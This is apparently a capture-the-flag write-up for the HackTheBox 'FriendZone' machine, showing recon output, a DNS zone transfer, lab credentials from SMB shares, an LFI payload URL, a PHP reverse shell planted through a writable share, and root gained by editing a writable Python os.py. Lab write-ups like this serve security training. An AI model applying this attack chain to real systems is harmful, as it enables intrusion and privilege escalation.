 # Friendzone

## Machine Info

![FriendZone](./Friendzone.assets/FriendZone.png)

## Recon

- nmap

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp open  p#߬U      Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.16 (95%), Linux 3.18 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), DD-WRT (Linux 3.18) (93%), Linux 4.10 (93%), Linux 4.2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- path recon

```
200      GET       92l      454w    37253c http://10.10.10.123/fz.jpg
200      GET       12l       31w      324c http://10.10.10.123/
301      GET        9l       28w      316c http://10.10.10.123/wordpress => http://10.10.10.123/wordpress/
200      GET     2961l    16611w   635009c https://friendzoneportal.red/z.gif
200      GET        5l        7w       66c https://friendzoneportal.red/
```

- subdomain recon
  - `gobuster vhost`
  - `dig` based on port 53, [53 - Pentesting DNS - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)

```bash
$ dig axfr @10.10.10.123 friendzone.red

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 39 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Wed Dec 20 19:42:26 CST 2023
;; XFR size: 8 records (messages 1, bytes 289)
```

- collect domain names

```
friendzoneportal.red
admin.friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
```

- smb recon: general, Development
  - **Development** is readable and writable
  - inside general find sensitive cred

![image-20231220225256166](./Friendzone.assets/image-20231220225256166.png)

```bash
$ cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

- another point to find a domain name

![image-20231220225457426](./Friendzone.assets/image-20231220225457426.png)

## Foothold

### LFI

- https://uploads.friendzone.red/upload.php -> unable to get the file name of uploaded stuff

- https://administrator1.friendzone.red/login.php with cred: `admin:WORKWORKHhallelujah@#`

![image-20231220225645229](./Friendzone.assets/image-20231220225645229.png)

![image-20231220225648549](./Friendzone.assets/image-20231220225648549.png)

- test url params

![image-20231220225700538](./Friendzone.assets/image-20231220225700538.png)

- `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=dashboard` -> recursive page -> LFI [?]
- LFI POC: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login`

![image-20231220225806243](./Friendzone.assets/image-20231220225806243.png)

- **LFI** -> execute xxx**.php** -> write **/etc/Development/a.php** (php reverse shell) based on smb **Development**

- then visit: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/a`

![image-20231220225901269](./Friendzone.assets/image-20231220225901269.png)

## Privilege Escalation

### backup cred

- search inside www directory -> mysql config file -> cred `friend:Agpyu12!0.213$` -> **ssh** conn

```bash
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

![image-20231220230030385](./Friendzone.assets/image-20231220230030385.png)

### writable python package

- after ssh conn as friend
  - linpeas -> find nothing
  - pspy

![image-20231220230127607](./Friendzone.assets/image-20231220230127607.png)

![image-20231220230134723](./Friendzone.assets/image-20231220230134723.png)

- two commands: /usr/bin/python /opt/server_admin/**reporter**.py, /bin/sh -c /opt/server_admin/**reporter**.py

![image-20231220230203807](./Friendzone.assets/image-20231220230203807.png)

- know that can run this python file to send emails based on os package -> able to trigger shell command

```bash
friend@FriendZone:/tmp$ python --version
Python 2.7.15rc1
```

- import os -> check os.py

```bash
friend@FriendZone:/tmp$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
```

![image-20231220230301827](./Friendzone.assets/image-20231220230301827.png)

- **os.py** is **writable** -> write a rshell python code -> root shell

![image-20231220230335680](./Friendzone.assets/image-20231220230335680.png)

## Exploit Chain

port recon -> 53 dns -> dig domain names -> LFI to trigger rshell.php + writable smb file for uploading rshell.php -> www-data -> friend cred -> ssh conn -> pspy -> py script as root -> os package writable -> py rshell included in os.py -> root shell


